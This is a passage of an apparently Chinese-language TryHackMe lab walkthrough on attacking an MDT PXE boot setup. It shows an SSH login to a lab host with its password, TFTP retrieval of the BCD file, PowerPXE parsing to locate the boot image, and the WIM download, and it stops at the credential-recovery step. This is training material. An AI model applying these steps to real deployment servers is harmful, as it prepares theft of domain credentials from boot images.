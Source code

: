 </div>

通常，您可以使用 TFTP 请求每个 BCD 文件，并枚举所有文件的配置。不过，由于时间关系，我们将重点关注 x64 架构的 BCD 文件。复制并存储该文件的全名。在本练习的其余部分，我们将使用 `x64{7B...B3}.bcd` 这个名称占位符，因为 MDT 每天都会重新生成文件及其名称。每次看到这个占位符时，请记住用特定的 BCD 文件名替换它。还要注意的是，如果网络刚刚启动，这些文件名只会在网络激活 10 分钟后更新。

有了这些从 DHCP 恢复的初始信息（眨眨眼），我们就可以枚举和检索 PXE 启动映像了。在接下来的几个步骤中，我们将在 THMJMP1 上使用 SSH 连接，因此请使用以下命令验证 SSH 会话：

```shell
ssh thm@THMJMP1.za.tryhackme.com
```

以及密码：`Password1@`

要确保网络中的所有用户都能使用 SSH，首先要创建一个包含用户名的文件夹，并将 powerpxe repo 复制到该文件夹中：

```shell title="SSH Command Prompt"
C:\Users\THM>cd Documents
C:\Users\THM\Documents> mkdir <username>
C:\Users\THM\Documents> copy C:\powerpxe <username>\
C:\Users\THM\Documents\> cd <username>
```

我们需要执行的第一步是使用 TFTP 下载 BCD 文件，以读取 MDT 服务器的配置。TFTP 比 FTP 要麻烦一些，因为我们不能列出文件。相反，我们发送一个文件请求，服务器会通过 UDP 连接回我们以传输文件。因此，我们在指定文件和文件路径时必须准确无误。BCD 文件始终位于 MDT 服务器上的 /Tmp/ 目录中。我们可以在 SSH 会话中使用以下命令启动 TFTP 传输：

```shell title="SSH Command Prompt"
C:\Users\THM\Documents\Am0> tftp -i <THMMDT IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd
Transfer successful: 12288 bytes in 1 second(s), 12288 bytes/s
```

您必须使用 `nslookup thmmdt.za.tryhackme.com` 查找 THMMDT IP。恢复 BCD 文件后，我们将使用 [Powerpxe](https://github.com/wavestone-cdt/powerpxe) 读取其内容。Powerpxe 是一个 PowerShell 脚本，可自动执行此类攻击，但结果通常各不相同，因此最好还是手动执行。我们将使用 powerpxe 的 Get-WimFile 功能从 BCD 文件中恢复 PXE 启动映像的位置：

```shell title="SSH Command Prompt"
C:\Users\THM\Documents\Am0> powershell -executionpolicy bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\THM\Documents\am0> Import-Module .\PowerPXE.ps1
PS C:\Users\THM\Documents\am0> $BCDFile = "conf.bcd"
PS C:\Users\THM\Documents\am0> Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : <PXE Boot Image Location>
<PXE Boot Image Location>
```

WIM 文件是 Windows 映像格式 (WIM) 的可启动映像。现在我们已经有了 PXE 引导映像的位置，可以再次使用 TFTP 下载该映像：

```shell title="SSH Command Prompt"
PS C:\Users\THM\Documents\am0> tftp -i <THMMDT IP> GET "<PXE Boot Image Location>" pxeboot.wim
Transfer successful: 341899611 bytes in 218 second(s), 1568346 bytes/s
```

由于您下载的是可完全引导和配置的 Windows 映像，因此下载需要一段时间。在等待过程中，不妨伸伸腿，喝杯水。

### 从 PXE 启动映像恢复凭证
